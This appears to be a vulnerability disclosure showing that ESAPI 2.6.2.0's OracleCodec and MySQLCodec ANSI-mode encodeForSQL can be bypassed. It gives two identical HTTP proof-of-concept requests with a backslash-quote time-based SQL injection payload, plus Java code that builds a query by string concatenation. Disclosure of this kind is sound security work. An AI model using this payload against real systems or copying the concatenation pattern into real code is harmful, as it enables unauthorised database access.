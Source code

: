 BUG_Author

Longlong Gong

# Project

Address: [esapi](https://github.com/ESAPI/esapi-java-legacy)

## 1、SQL injection filtering bypass

###  1.1、oracleCodec encodeForSQL bypass

[Affected version]

v2.6.2.0



[Affected Component]

```
Codec<Character> oracleCodec = new OracleCodec();
```



[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab



[Description]

When using Oracle's codec OracleCodex and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

![image-20250604203837348](assets/image-20250604203837348.png)

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,sleep(5),1)--+ for the data packet payload

![image-20250604204352340](assets/image-20250604204352340.png)

You can see that the result is returned quickly without using the sleep function

![image-20250604204935285](assets/image-20250604204935285.png)

Next, we use the sleep function and can see that the database has executed the sleep function

![image-20250604204503427](assets/image-20250604204503427.png)

Let's follow the code and find that when passed in, it adds a back slash and a single quotation mark

![image-20250604204622028](assets/image-20250604204622028.png)

![image-20250604204706044](assets/image-20250604204706044.png)

After being encoded as a character, it became two single quotes, but the first one was commented as a regular character with a back slash, so it was bypassed

![image-20250604204812000](assets/image-20250604204812000.png)

You can see the last executed statement below

![image-20250604204837224](assets/image-20250604204837224.png)

Let's take a look at the latest code below

![image-20250604205026984](assets/image-20250604205026984.png)

![image-20250604205349843](assets/image-20250604205349843.png)

###  1.2、MySQLCodec ANSI encodeForSQL bypass

[Affected version]

v2.6.2.0



[Affected Component]

```
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
```



[Software]

https://github.com/ESAPI/esapi-java-legacy/archive/refs/tags/esapi-2.6.2.0.zip

give an example：https://github.com/whgojp/JavaSecLab



[Description]

When using MySQL codec's ANSI mode and ESAPI library for encoding in ESAPI2.6.2.0 components, SQL injection defense can be bypassed. Attackers can exploit this vulnerability to bypass SQL injection defense and launch SQL injection attacks

POC

```
GET /sqli/jdbc/safe5?id=1%5c'+and+if(1=1,sleep(5),1)--+&type=select&_=1749041001677 HTTP/1.1
Host: 192.168.1.184:33334
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/137.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Referer: http://192.168.1.184:33334/sqli/jdbc/jdbcSafe
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1742043310; Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1747873860; JSESSIONID=840F4C6A21E8E88DF303E95A5BF7176A
Connection: keep-alive


```

Based on the JavaSeclab project that references ESAPI2.2.0.0, there have been no changes to the code in key areas of 2.6.2.0

Let's first modify the code to make it compatible with the MySQL engine

```java
Codec<Character> mysqlCodec = new MySQLCodec(MySQLCodec.Mode.ANSI);
Class.forName("com.mysql.cj.jdbc.Driver");
Connection conn = DriverManager.getConnection(dbUrl, dbUser, dbPass);

Statement stmt = conn.createStatement();
String sql = "select * from sqli where id = '" + ESAPI.encoder().encodeForSQL(mysqlCodec, id) + "'";
```

Go to SQL Injection ->JDBC ->Security Scenarios ->Web Security Framework, first enter 1 for querying, and then use id=1% 5c '+and+if (1=1,sleep(5),1)--+ for the data packet payload

![image-20250604211139210](assets/image-20250604211139210.png)

![image-20250604211040745](assets/image-20250604211040745.png)

![image-20250604211105855](assets/image-20250604211105855.png)

Let's take a look at the latest code below

![image-20250604211504702](assets/image-20250604211504702.png)

![image-20250604211322503](assets/image-20250604211322503.png)

![image-20250604211550119](assets/image-20250604211550119.png)
